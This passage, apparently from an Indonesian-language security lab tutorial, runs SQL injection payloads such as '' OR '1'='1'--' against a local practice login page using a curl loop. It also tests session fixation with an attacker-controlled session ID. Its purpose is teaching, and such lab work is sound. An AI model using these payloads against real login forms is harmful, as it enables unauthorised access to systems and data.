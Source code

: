 
**Step 2: Information Gathering (10 min)**
```bash
# Extract database information from errors
echo "=== DATABASE INFORMATION EXTRACTION ==="

payloads=(
  "admin'"
  "admin'--"
  "' OR '1'='1'--"
)

for payload in "${payloads[@]}"; do
  echo "Testing payload: $payload"
  response=$(curl -X POST http://localhost:8081/index.php \
    -d "username=$payload&password=test" -s)
  
  # Look for database errors
  if echo "$response" | grep -q -i "pdoexception\|mysql\|sql"; then
    echo "  🚨 SQL Error detected!"
    echo "$response" | grep -i "pdoexception\|mysql\|sql" | head -1
  else
    echo "  ✅ No SQL error"
  fi
  echo ""
done
```

**Step 3: Automated SQL Testing (5 min)**
```bash
# Run comprehensive SQL injection test
python3 sql_injection_tester.py | head -50
```

**📝 Learning Questions:**
1. Apa informasi yang terekspos dari error messages?
2. Mengapa prepared statements tidak mencegah error ini?
3. Bagaimana cara exploit error-based SQL injection?

#### **🔗 Lab 3.4: Session Fixation Analysis (15 min)**

**Objective**: Memahami mengapa session fixation tidak bekerja

**Step 1: Test Session Fixation (10 min)**
```bash
echo "=== SESSION FIXATION TESTING ==="

# Try to set custom session ID
custom_session="ATTACKER_CONTROLLED_SESSION_123"
echo "Attempting to set session ID: $custom_session"

response=$(curl "http://localhost:8081?sessionid=$custom_session" -s)

# Check for errors
if echo "$response" | grep -q "session_id.*cannot be changed"; then
  echo "⚠️  Session fixation blocked by PHP error"
  echo "Implementation flaw prevents attack"
else
  echo "🚨 Session fixation might be possible"
fi
```
